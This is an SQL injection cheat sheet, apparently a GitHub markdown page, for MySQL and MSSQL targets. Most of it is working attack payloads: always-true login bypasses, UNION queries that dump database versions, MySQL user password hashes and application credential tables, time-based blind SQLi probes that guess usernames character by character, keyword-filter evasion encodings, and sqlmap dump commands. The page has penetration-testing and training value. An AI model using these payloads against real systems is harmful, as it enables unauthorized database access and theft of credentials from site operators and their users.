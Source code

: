 # SQL INJECTION

SQL Operators and Functions
---------------------------

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

SQL comments: `/* actual comment text*/`  

MySQL delimiter (comment): `#`
SQL delimiter (comment): `--`

Only MySQL is using `version_comment`.

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

General Tips
------------

Find out if the web app is talking to a data store (i.e. file, web service, database).  
Look for parameter passing and insert single/double quote there - immediately after the parameter value or instead the parameter value.  
Browse the web app, note errors, behaviour.


* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
"' OR '1'='1';-- " (note the space after the second hyphen)
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


Blind SQLi
----------

When you put in a tick, you are redirected to a homepage? Suspicious.

```
id=2; waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=1) waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=2) waitfor delay '00:00:10'--
```

etc...

Then, look at ASCII chart and try guessing admin username:

```
id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--
id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
```

etc.

Note: sqlmap tool is good for blind sqli.


Circumventing Simple Validation
-------------------------------

If SELECT keyword is being blocked, try:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```


SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  


Other Tools
-----------

* Havij
* sqlninja
* BBQSQL
* Metasploit SQLi Module


Resources
---------

* http://seclists.org/pauldotcom/2010/q3/341  
* https://www.notsosecure.com/more-on-true-and-error-blind-sql-injection/  
* https://www.notsosecure.com/exploiting-sql-injections-in-insert-statements/
* http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Willis.pdf
* [Great introduction to SQLi](https://www.youtube.com/watch?v=P6fLRmeEKKA)
